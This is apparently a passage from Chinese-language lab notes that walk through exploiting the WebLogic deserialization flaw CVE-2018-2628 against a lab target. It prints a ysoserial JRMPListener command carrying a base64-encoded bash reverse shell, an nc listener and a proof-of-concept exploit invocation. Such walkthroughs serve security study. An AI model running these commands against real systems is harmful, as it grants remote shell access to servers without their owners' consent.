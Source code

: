 ![image-20241122170144707](中间件漏洞/image-20241122170144707.png)		

```
kali启动JRMPListener,将复制的payload粘贴到指定部分即可。
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8761 CommonsCollections1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE1LjEyOC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}"
```

![image-20241122171634848](中间件漏洞/image-20241122171634848.png)	

```
kali进行端口监听，等待反弹shell.
nc -lvvp 7777
```

![image-20241122171719686](中间件漏洞/image-20241122171719686.png)	

```
kali运行运行POC（只支持Python2）,目的是让靶机去连接RMI服务器。
python2 cve-2018-2628-exp.py 192.168.15.50 7001 ysoserial.jar 192.168.15.128 8761 JRMPClient
```

![image-20241122172026603](中间件漏洞/image-20241122172026603.png)	
